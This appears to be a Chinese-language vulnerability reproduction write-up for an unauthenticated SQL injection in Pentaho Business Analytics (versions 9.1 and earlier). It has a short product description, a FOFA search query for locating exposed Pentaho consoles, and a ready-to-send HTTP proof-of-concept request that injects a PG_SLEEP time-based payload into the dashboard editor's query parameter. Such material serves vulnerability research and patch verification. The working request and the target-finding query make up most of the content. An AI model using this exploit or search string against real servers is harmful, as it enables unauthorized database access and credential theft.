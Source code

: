 
# Pentaho 业务分析平台 SQL 注入漏洞复现

### 0x01 产品简介

  Pentaho Business Analytics 是一款使您能够安全地访问、集成、操作、可视化和分析大数据资产的业务分析平台。

### 0x02 漏洞概述

 Pentaho 业务分析平台在/pentaho/api/repos/dashboards/editor 路径 query 参数存在 SQL 注入漏洞，攻击者可未授权执行任意 SQL 语句，获取账号密码等敏感信息，进一步接管系统。

### 0x03 影响范围

 Pentaho <= 9.1

### 0x04 复现环境

FOFA：app="Pentaho-用户控制台"

![](assets/1701745998-904eb0d81f6ef1ee21533bfdac6c99fc.png)

### 0x05 漏洞复现 

PoC

```http
GET /pentaho/api/repos/dashboards/editor?command=executeQuery&datasource=pentaho_operations_mart&require-cfg.js&query=%3BSELECT+PG_SLEEP%288%29-- HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip
```

延时 8 秒 （PG\_SLEEP(8)）
